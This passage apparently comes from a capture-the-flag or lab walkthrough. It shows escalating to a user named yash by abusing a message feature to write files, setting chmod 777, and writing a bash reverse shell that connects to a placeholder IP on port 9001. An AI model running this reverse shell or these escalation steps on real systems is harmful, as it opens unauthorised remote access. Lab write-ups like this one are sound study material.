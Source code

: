 We can write messages for `yash`, if we try some commands they don't work, such as id or whoami, but, we can use `echo` to create a file:




![Pasted image 20250519212359.png](../../IMAGES/Pasted%20image%2020250519212359.png)

![Pasted image 20250519212410.png](../../IMAGES/Pasted%20image%2020250519212410.png)

As seen, it does create the file in our home, we can now create another file to send us a reverse shell as yash:


```
echo '' > /home/files/shell.sh
```

We now need to give the files permissions:

```
chmod 777 /home/files/reverse.sh
```

We can now change the contents to a reverse shell:

```bash
#!/bin/bash

bash -i >& /dev/tcp/IP/9001 0>&1
```


We now need to execute the file and get our shell if we have our listener ready:

![Pasted image 20250519213847.png](../../IMAGES/Pasted%20image%2020250519213847.png)
